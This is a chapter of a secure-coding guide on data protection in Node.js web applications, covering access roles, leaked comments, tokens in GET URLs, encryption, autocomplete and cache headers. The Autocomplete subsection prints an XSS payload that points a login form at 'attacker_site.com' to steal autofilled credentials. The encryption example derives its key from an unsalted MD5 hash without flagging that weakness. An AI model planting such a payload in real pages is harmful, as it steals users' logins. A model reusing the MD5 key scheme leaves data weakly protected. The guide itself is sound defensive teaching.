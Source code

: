 Data Protection
===============

Nowadays, one of the most important things in security is data protection. You
don't want something like:

![All your data are belong to us](files/cB52MA.jpeg)

In a nutshell, data from your web application needs to be protected,. Therefore,
in this section we will take a look at the different ways to secure it.

One of the first things you should take care of is creating and implementing the
right privileges for each user and restrict them to strictly the functions they
really need.

For example, consider a simple online store with the following user roles:

* _Sales user_: Permission only to view catalog
* _Marketing user_: Allowed to check statistics
* _Developer_: Allowed to modify pages and web application options

Also, in the system configuration (aka webserver), you should define the right
permissions.

The main thing is to define the right role for each user - web or system.

Role separation and access controls are further discussed in the [Access
Control][1] section.

## Remove Sensitive Information

Temporary and cache files containing sensitive information should be removed
as soon as they're not needed. If you still need some of them, move them to
protected areas and/or encrypt them. This includes all authentication
verification data, even on the server-side.

Last but not least, when using encryption, make sure you are using well vetted
algorithms. More information in the [Cryptographic Practices][2] section.

### Comments

Sometimes developers leave comments like _To-do lists_ in the source-code, and
sometimes, in the worst case scenario, developers may leave credentials.

```javascript
// secret API endpoint - /api/mytoken?callback=myToken
console.log("Just a random code")
```

In the above example, the developer has an endpoint in a comment which, if not
well protected, could be used by a malicious user.

### URL

Passing sensitive information using the HTTP GET method leaves the web
application vulnerable because:

1. Data could be intercepted if not using HTTPS by MITM attacks
2. Browser history stores the user's information. If the URL has
   session IDs, pins or tokens that don't expire (or have low entropy),
   they can be stolen.

```JavaScript
const http = require('http');

const options = {
  host: 'www.mycompany.com',
  path: '/api/mytoken?api_key=000s3cr3t000'
};

const callback = (response) => {
  let str = '';

  // another chunk of data has been recieved, so append it to `str`
  response.on('data', (chunk) => {
    str += chunk;
  });

  // the whole response has been recieved, so we just print it out here
  response.on('end', () => {
    console.log(str);
  });
}

http.request(options, callback).end();
```

If your web application tries to get information from a third-party website
using your ```api_key```, it could be stolen if anyone is listening within your
network. This is due to the lack of HTTPS and the parameters being passed
through GET.

Also, if your web application has links to the example site:

```
http://mycompany.com/api/mytoken?api_key=000s3cr3t000
```

It will be stored in your browser history so, again, it can be stolen.

Solutions should always use HTTPS. Furthermore, try to pass the parameters using
the POST method and, if possible, use one time only session IDs or token.

### Information Is Power

You should always remove application and system documentation on the production
environment. Some documents could disclose versions or even functions that could
be used to attack your web application (e.g. Readme, Changelog, etc.)

As a developer, you should allow the user to remove sensitive information that
is no longer used. Imagine if the user has an expired credit card on their
account and would like to remove it - your web application should allow it.

All information that is no longer needed must be deleted from the application.

It is also critical to ensure that no server-side source code can be downloaded
or accessed by a user.

#### Encryption Is the Key

Every bit of highly sensitive information should be encrypted in your web
application.
See the [Cryptographic Practices][2] section for more information regarding
algorithms and their usage.

Getting different permissions for accessing the code and limiting the access
for your source-code is the best approach.

Do not store passwords, connection strings (see example for how to secure
database connection strings on [Database Security][3] section) or other
sensitive information in clear text or in any non-cryptographically secure
manner on the client side.

This includes embedding in insecure formats (e.g. Adobe Flash or compiled code).

A small example of `aes-256-cbc` encryption in Node.js using the
`crypto` module:

```javascript
const crypto = require('crypto');

// get password's md5 hash
const password = 'test';
const password_hash = crypto.createHash('md5').update(password, 'utf-8').digest('hex').toUpperCase();
console.log('key=', password_hash); // 098F6BCD4621D373CADE4E832627B4F6

// our data to encrypt
const data = 'Sample text to encrypt';
console.log('data=', data);

// generate random initialization vector
const iv = crypto.randomBytes(16)
console.log('iv=', iv);

// encrypt data
const cipher = crypto.createCipheriv('aes-256-cbc', password_hash, iv);
const encryptedData = cipher.update(data, 'utf8', 'hex') + cipher.final('hex');
console.log('encrypted data=', encryptedData.toUpperCase());
```

Output will be:

```
key= 098F6BCD4621D373CADE4E832627B4F6
data= Sample text to encrypt
iv= <Buffer d7 98 9a 54 a0 e6 bc 45 f3 7f bc 33 c2 0f 7d 00>
encrypted data= 83640168A86A9F2BC0BEEEDEB39756E195EF3D0758A3262F012697C3D718B039
```

## Disable What You Don't Need

Another simple and efficient way to mitigate attack vectors is to guarantee that
any unnecessary applications or services are disabled in your systems.

### Autocomplete

According to [Mozilla documentation][4], you can disable `autocomplete` in the
entire form by using:

```html
<form method="post" action="/form" autocomplete="off">
```

Or in a specific form element:

```html
<input type="text" id="cc" name="cc" autocomplete="off">
```

This is especially useful for disabling `autocomplete` on login forms. Imagine a
case where a Cross-Site Scripting vector is present in the login page.
If the malicious user creates a payload like:

```javascript
window.setTimeout(() => {
  document.forms[0].action = 'http://attacker_site.com';
  document.forms[0].submit();
}
), 10000);
```

It will send the autocomplete form fields to the `attacker_site.com`.

### Cache

Cache control in pages that contain sensitive information should be disabled.

This can be achieved by setting the corresponding header flags.   
The following snippet shows how to do this in an `express` application:

```javascript
const express = require('express');

const app = express();

// ...

app.use((req,res,next) => {
  res.header('Cache-Control', 'private, no-cache, no-store, must-revalidate');
  res.header('Pragma', 'no-cache');

  next();
});

// ...
```

The `no-cache` value tells the browser to revalidate with the server before
using any cached response. It does not tell the browser to _not cache_.

On the other hand, `no-store` value is really - _Hey stop caching!_ - and must
not store any part of the request or response.

The `Pragma` header is there to support HTTP/1.0 requests.

[1]: ./access-control/README.md
[2]: ./cryptographic-practices/README.md
[3]: ./database-security/README.md
[4]: https://developer.mozilla.org/en-US/docs/Web/Security/Securing_your_site/Turning_off_form_autocompletion
